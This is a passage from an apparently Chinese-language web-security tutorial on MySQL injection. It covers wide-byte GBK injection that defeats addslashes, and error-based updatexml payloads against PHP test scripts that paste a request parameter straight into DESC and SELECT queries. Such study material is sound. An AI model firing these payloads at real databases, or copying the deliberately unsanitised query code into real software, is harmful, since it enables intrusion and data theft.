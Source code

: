 **`addslashes()`会在单引号或双引号前加上一个`\`。当mysql使用GBK字符集时，会把两个字符当作一个汉字，如`%df%5c`为运字。我们输入`name=root%df%27`，`%`在服务器端会出现如下转换：`root%df%27`--> `root%df%5c%27` --> `root运`**

**更多内容可见：[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)**

**利用**

**`index.php?name=1%df'`**

**`index.php?name=1%a1'`**

**`index.php?name=1%aa'`**

**....**

**在被`addslashes`后，出现`%XX%5c`，当前一个字符的ascii码大于128时，会被认为是一个宽字符，即使它不是个汉字。所以不是仅仅`%df`可以吃掉`\`**

#### 表名可控注入

**详细可参考[当表名可控的注入遇到了Describe时的几种情况](http://www.yulegeyu.com/2017/04/16/当表名可控的注入遇到了Describe时的几种情况。/)**

**表名不完全可控且DESC的表名含有反引号，SELECT的表名不含反引号**

**test.php 代码如下：**

```php
<?php
mysql_connect("127.0.0.1","root","123456");
mysql_query("use test");
$table = $_GET['table'];
mysql_query("desc `shop_$table`") or die("DESC 出错:".mysql_error());
$sql = "select * from shop_$table where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```

**payload:**

```mysql
user` `where updatexml(1,concat(0x5e24,(select user()),0x5e24),1)%23`
```

**shop_users 后面的两个``，做了shop_users表的别名，所以无影响，不会进入 die。sql语句才得以执行**

```mysql
select * from message `` where updatexml(1,concat(0x7e,(select user()),0x7e),1)#; where 1=1;
```

![mysql_sql-1](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/mysql_sql-1.jpg)

**表名不完全可控且DESC的表名不含反引号，SELECT的表名含有反引号**

**test.php 源码如下：**

```php
<?php
mysql_connect("127.0.0.1","root","123456");
mysql_query("use test");
$table = $_GET['table'];
mysql_query("desc shop_{$table}") or die("DESC 出错:".mysql_error());
$sql = "select * from `shop_{$table}` where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```
